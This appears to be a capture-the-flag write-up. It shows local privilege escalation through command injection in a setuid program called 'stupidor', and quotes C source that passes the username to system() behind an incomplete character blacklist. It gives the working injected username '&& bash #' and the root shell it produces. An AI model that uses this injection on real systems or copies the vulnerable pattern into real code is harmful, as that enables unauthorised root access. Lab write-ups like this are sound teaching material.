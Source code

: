 # `stupidor` vulnerability

Once we obtained local access to the server, we first check what user we're logged in as:


```
karen@ubuntu-server:~$ whoami
karen
```

We then check if we have sudo rights:

```
karen@ubuntu-server:~$ sudo -l
[sudo] password for karen: 
Sorry, user karen may not run sudo on ubuntu-server
```

We also check the groups of which we're a member:

```
karen@ubuntu-server:~$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
```

Well, this user is quite useless... or is it? We look around the user's directories and find a file `reminder.txt` in the Desktop. Let's read it:

```
karen@ubuntu-server:~$ cat reminder.txt 
April 23, 2024

Η ημερομηνία κυκλοφορίας του Stupidor είναι τον Ιούλιο, οπότε έχω ακόμα χρόνο. 
Τέλος πάντων, πρέπει να θυμηθώ να ελέγξω ξανά τα εισερχόμενα. Λένε ότι είναι 
ευάλωτο, αν και δεν καταλαβαίνω πώς. Δεν ξέρω, θα το δω εν ευθέτω χρόνω.
```

D:

Ok, let's try translating this:

*The release date for Stupidor is in July, so I still have time. Anyway, I need to remember to check my inbox again. They say it's vulnerable, though I don't understand how. I don't know, I'll look into it in due course.*

Seems like they're talking about some software called Stupidor. Their inbox what? Is it bad translation? Anyway, I like the 'vulnerable' word. Maybe this has something to do with Stupidor.

```
karen@ubuntu-server:~$ stupidor
Usage:
    stupidor [command]

Available commands:
    signup      Sign up
    send        Send a message
    inbox       Check inbox

Flags:
    -h, --help      Show this help info
    -v, --version   Show version info

Use "stupidor [command] --help" for more information about a command.
```

Ah-ah! So the inbox (and probably the vulnerability) they were talking about concerns this program. Let's dive a little more into it.

```
karen@ubuntu-server:~$ which stupidor
/usr/local/bin/stupidor
karen@ubuntu-server:~$ ls -l /usr/local/bin/stupidor
-rwsr-xr-x 1 root root 27104 Apr 20 15:27 /usr/local/bin/stupidor*
```

Well, this is real nice! I smell privilege escalation here. So, the next step is to understand how to break this program so to earn root privileges.

*... plays with Stupidor to look for easy-to-exploit vulnerabilities, but nothing interesting is found...*

Ok. What can I do now? In the reminder, Karen talked about having to check the inbox again before the release date. Maybe this means that the source code is still accessible. Let's see...

```
karen@ubuntu-server:~$ find / -name stupidor 2>/dev/null
/var/stupidor
/usr/share/doc/stupidor
/usr/local/src/stupidor
karen@ubuntu-server:~$ ls -l /usr/local/src/stupidor
total 56
-rw-r--r-- 1 root root 1032 Apr 20 15:44 check_password.c
-rw-r--r-- 1 root root  542 Apr 20 15:44 check_username.c
-rw-r--r-- 1 root root 1807 Apr 20 15:44 defines.h
-rw-r--r-- 1 root root  630 Apr 20 15:44 generate_seed.c
-rw-r--r-- 1 root root 1138 Apr 20 15:44 get_hash.c
-rw-r--r-- 1 root root  310 Apr 20 15:44 includes.h
-rw-r--r-- 1 root root  332 Apr 20 15:44 print_file.c
-rw-r--r-- 1 root root 5263 Apr 20 15:44 sha256.c
-rw-r--r-- 1 root root 1215 Apr 20 15:44 sha256.h
-rw-r--r-- 1 root root 1766 Apr 20 15:44 stupidor.c
-rw-r--r-- 1 root root 2282 Apr 20 15:44 stupidor_inbox.c
-rw-r--r-- 1 root root 2620 Apr 20 15:44 stupidor_send.c
-rw-r--r-- 1 root root 4082 Apr 20 15:44 stupidor_signup.c
```

Good! We cannot change it but at least we can read it. Apparently there is a vulnerability in the part concerning the inbox. Let's dive into it:

```c
/*
Check inbox

Usage:
    stupidor inbox

Flags:
    -h, --help          Show this help info
    -D, --delete-all    Delete all messages in the inbox
*/

#include "includes.h"

void stupidor_inbox(int delete)
{
    char username[UNAMEMAX];

[...]

/* read inbox */
    char filepath[PATH_MAX];
    snprintf(filepath, sizeof(filepath), "/var/stupidor/_%s_", username);
    char command[strlen(filepath) + 10]; // 10 = "sudo cat " + '\0'
    snprintf(command, sizeof(command), "sudo cat %s", filepath);
    system(command);
    exit(EXIT_SUCCESS);
}
```

Here's something interesting: reading the inbox consists in reading a file named as the associated user, with a starting and ending underscore. To read the file, the program runs `sudo cat /var/stupidor/_<username>_`. Well, here I see the opportunity of a command injection. I just have to create a new user with a malicious username.

Ehy, I just have to create a user called `; bash`, then I check the inbox and that's it!

```
karen@ubuntu-server:~$ stupidor signup
Enter username: ; bash
Username can't contain './'"+:;*&|>^$\()[]{}'.
```

D:

How am I supposed to do this then?

*time passes, and the desperate hacker does not understand what to do. He then begins to read the program's source code in search of some ideas, until he notices something...*

```
karen@ubuntu-server:~$ cat /usr/local/src/stupidor/stupidor_signup.c
```
```c
[...]

    /* illegal characters */
    if (strchr(username, '.')  != NULL || 
        strchr(username, '/')  != NULL ||
        strchr(username, '\'') != NULL ||
        strchr(username, '\"') != NULL ||
        strchr(username, '+')  != NULL ||
        strchr(username, ':')  != NULL ||
        strchr(username, ';')  != NULL ||
        strchr(username, '*')  != NULL ||
        strchr(username, '|')  != NULL ||
        strchr(username, '>')  != NULL ||
        strchr(username, '^')  != NULL ||
        strchr(username, '$')  != NULL ||
        strchr(username, '\\') != NULL ||
        strchr(username, '(')  != NULL ||
        strchr(username, ')')  != NULL ||
        strchr(username, '[')  != NULL ||
        strchr(username, ']')  != NULL ||
        strchr(username, '{')  != NULL ||
        strchr(username, '}')  != NULL) {
        printf("Username can't contain './\'\"+:;*&|>^$\\()[]{}'.\n");
        exit(EXIT_FAILURE);
    }

[...]
```

They forgot to check for the occurrence of '&' characters! So I can do something like `cat /var/stupidor/_<existing user>_ && bash # _` and obatin a root shell! Let's try:

```
karen@ubuntu-server:~$ stupidor signup
Enter username: bobby
Enter password: 12345678
User created.
karen@ubuntu-server:~$ stupidor signup
Enter username: bobby_ && bash # 
Enter password: 12345678
User created.
karen@ubuntu-server:~$ stupidor inbox
Username: bobby_ && bash # 
Password: 12345678
root@ubuntu-server:~# 
```

Gotcha!
